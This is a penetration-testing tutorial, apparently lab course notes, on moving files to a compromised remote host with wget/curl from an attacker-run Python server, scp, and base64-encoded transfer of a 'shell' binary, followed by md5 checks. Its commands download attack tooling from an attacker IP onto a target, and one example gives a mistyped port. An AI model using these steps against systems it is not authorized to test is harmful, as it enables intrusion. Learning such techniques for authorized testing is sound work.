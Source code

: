 # Transferring Files
During any penetration test exercise, it is likely that we will need to transfer files to a remote server, such as enumeration scripts or exploits, or transfer data back to our attack host.

While tools like Metasploit with a Meterpreter shell allow us to use the **Upload** command to upload a file, we need to learn methods to transfer files with a standard reverse shell.

## Using wget
There are many methods to accomplish this. One method is running a Python HTTP server on our machine and then using wget or cURL to download the file on the remote host.

First we go into the directory that contains the file we need to transfer and run a Python HTTP server in it.

```
kieferhax@htb[/htb]$ cd /tmp
kieferhax@htb[/htb]$ python3 -m http.server 8000   

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/)
```

Now that we have set up a listening server on our machine, we can download the file on the remote host that we have code execution on:

```
user@remotehost$ wget http://10.10.14.1:80000/linenum.sh

...SNIP...
Saving to: 'linenum.sh'

linenum.sh 100%[=======================>] 144.86K --.- KB/s in 0.02s

2021-02-08 18:09:19 (8.16 MD/s) - 'linenum.sh' saved [14337/14337]
```

Note that we used our IP *10.10.14.1* and the port our Python server runs on **8000**. If the remote server does not have **wget**, we can use **cURL** to download the file:

```
user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

100  144k  100  144k    0     0  176k      0 --:--:-- --:--:-- --:--:-- 176k
```

## Using SCP
Another method to transfer files would be using **scp**, granted we have obtained ssh user credentials on the remote host. We can do so as follows:

```
kieferhax@htb[/htb]$ scp linenum.sh user@remotehost:/tmp/linenum.sh

user@remotehost's password: *********
linenum.sh
```

Note that we specified the local file name after **scp**, and the remote directory will be saved to after the **:**.

## Using Base64
In some cases, we may not be able to transfer the file. For example, the remote host may have firewall protections that prevent us from downloading a file from our machine.

In this type of situation, we can use a simple trick to *base64* encode the file into **base64** format, and then we can paste the **base64** string on the remote server and decode it. For example, if we wanted to transfer a binary file called **shell**, we can **base64** encode it as follows:

```
kieferhax@htb[/htb]$ base64 shell -w 0

f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU
```

Now we can copy this **base64** string, go to the remote host, and use **base64 -d** to decode it, and pipe the output into a file:

```
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```

## Validating File Transfers
To validate the format of a file, we can run the **file** command on it:

```
user@remotehost$ file shell
shell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header
```

As we can see, when we run the **file** command on the **shell** file, it says that it is an ELF binary, meaning that we successfully transferred it. To ensure that we did not mess up the file during the encoding/decoding process, we can check its md5 hash.  On our machine, we can run **md5sum** on it:

```
kieferhax@htb[/htb]$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```

Now we can go to the remote server and run the same command on the file we transferred:

```
user@remotehost$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```

As we can see, both files have the same md5 hash, meaning the file was transferred correctly and without any issues.